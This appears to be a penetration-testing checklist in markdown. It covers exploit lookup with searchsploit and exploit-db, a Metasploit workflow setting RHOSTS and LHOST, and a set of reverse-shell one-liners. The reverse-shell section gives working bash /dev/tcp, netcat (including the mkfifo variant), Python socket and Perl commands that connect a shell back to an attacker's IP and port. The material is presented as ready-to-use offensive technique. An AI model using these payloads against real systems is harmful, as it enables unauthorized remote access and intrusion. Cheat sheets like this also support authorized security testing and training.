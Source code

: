 ### Exploit Research & Development

#### Comprehensive Exploit Research
- [ ] **SearchSploit**:
  ```bash
  searchsploit <service> <version>
  searchsploit -m <exploit_id>  # Copy exploit locally
  ```
- [ ] **Exploit Database**: Browse exploit-db.com
- [ ] **CVE Details**: Check CVE databases for version-specific vulnerabilities
- [ ] **GitHub**: Search for PoC exploits and tools

#### Metasploit Framework
- [ ] **Module Search**:
  ```bash
  msfconsole
  search <service>
  use <module_path>
  show options
  set RHOSTS <target>
  set LHOST <your_ip>
  exploit
  ```
- [ ] **Auxiliary Modules**: Use for additional enumeration
- [ ] **Post-Exploitation Modules**: For privilege escalation and persistence

### Shell Acquisition Techniques

#### Reverse Shell Variations

##### Linux Reverse Shells
- [ ] **Bash**:
  ```bash
  bash -i >& /dev/tcp/IP/PORT 0>&1
  0<&196;exec 196<>/dev/tcp/IP/PORT; sh <&196 >&196 2>&196
  ```
- [ ] **Netcat**:
  ```bash
  nc -e /bin/bash IP PORT
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f
  ```
- [ ] **Python**:
  ```python
  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
  ```
- [ ] **Perl**:
  ```perl
  perl -e 'use Socket;$i="IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
  ```
